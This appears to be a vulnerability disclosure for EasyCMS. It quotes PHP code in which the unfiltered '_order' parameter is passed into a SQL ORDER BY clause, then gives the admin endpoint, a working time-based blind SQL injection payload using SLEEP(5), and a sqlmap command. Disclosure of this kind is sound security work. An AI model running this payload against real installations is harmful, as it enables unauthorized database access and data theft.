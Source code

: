 # EasyCMS's background query function SQL injection vulnerability(new)

1.The following code has SQL injection:

vulnerability found in:
    \App\Modules\Admin\Action\ArticlemAction.class.php line 390 function query
   
		$list = $model->where($map)->relation(true)->order($order.' '.$sort)
						->limit($p->firstRow.','.$p->listRows)
						->select();			
		if (method_exists($this, '_tigger_list')) {
			$this->_tigger_list($list);
		}
		foreach ($map as $key => $val) {
			if (!is_array($val)) {
				$p->parameter .= "$key=" . urlencode($val) . "&";
			}
		}

![图片](https://user-images.githubusercontent.com/90664154/149264230-11e0c622-8903-4d8e-af35-d95d0e76aac7.png)

The variable Order is not filtered and SQL injection exists.

2.Payload
URL:/index.php?s=/admin/user/index.html

Payload: _order=123 AND (SELECT 8561 FROM (SELECT(SLEEP(5)))MlTU)&keyword=123&numPerPage=10&pageNum=1

Parameter: _order (POST)

Type: time-based blind

sqlmap command:
python sqlmap.py -r easycms.txt -batch

result:
![图片](https://user-images.githubusercontent.com/90664154/149264277-a720fa3e-c1d2-4184-aabf-a637bb3138ad.png)


